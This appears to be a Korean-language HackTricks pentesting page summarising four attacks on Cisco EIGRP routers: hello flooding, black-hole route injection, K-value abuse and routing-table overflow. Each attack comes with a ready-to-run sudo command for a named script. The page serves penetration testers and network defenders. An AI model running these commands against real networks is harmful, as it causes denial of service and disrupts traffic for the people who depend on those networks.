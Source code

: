 # EIGRP 공격

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

**이것은** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **에 노출된 공격의 요약입니다. 추가 정보는 해당 링크를 확인하세요.**

## **가짜 EIGRP 이웃 공격**

- **목표**: EIGRP hello 패킷으로 라우터 CPU를 과부하 시켜 서비스 거부(DoS) 공격으로 이어질 수 있습니다.
- **도구**: **helloflooding.py** 스크립트.
- **실행**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **매개변수**:
- `--interface`: 네트워크 인터페이스를 지정합니다. 예: `eth0`.
- `--as`: EIGRP 자율 시스템 번호를 정의합니다. 예: `1`.
- `--subnet`: 서브넷 위치를 설정합니다. 예: `10.10.100.0/24`.

## **EIGRP 블랙홀 공격**

- **목표**: 잘못된 경로를 주입하여 네트워크 트래픽 흐름을 방해하고, 트래픽이 존재하지 않는 목적지로 향하게 합니다.
- **도구**: **routeinject.py** 스크립트.
- **실행**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **매개변수**:
- `--interface`: 공격자의 시스템 인터페이스를 지정합니다.
- `--as`: EIGRP AS 번호를 정의합니다.
- `--src`: 공격자의 IP 주소를 설정합니다.
- `--dst`: 대상 서브넷 IP를 설정합니다.
- `--prefix`: 대상 서브넷 IP의 마스크를 정의합니다.

## **K-값 남용 공격**

- **목표**: 변경된 K-값을 주입하여 EIGRP 도메인 내에서 지속적인 중단 및 재연결을 생성하여 사실상 DoS 공격을 발생시킵니다.
- **도구**: **relationshipnightmare.py** 스크립트.
- **실행**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **매개변수**:
- `--interface`: 네트워크 인터페이스를 지정합니다.
- `--as`: EIGRP AS 번호를 정의합니다.
- `--src`: 합법적인 라우터의 IP 주소를 설정합니다.

## **라우팅 테이블 오버플로우 공격**

- **목표**: 수많은 잘못된 경로로 라우팅 테이블을 채워 라우터의 CPU와 RAM에 부담을 줍니다.
- **도구**: **routingtableoverflow.py** 스크립트.
- **실행**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **매개변수**:
- `--interface`: 네트워크 인터페이스를 지정합니다.
- `--as`: EIGRP AS 번호를 정의합니다.
- `--src`: 공격자의 IP 주소를 설정합니다.


{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
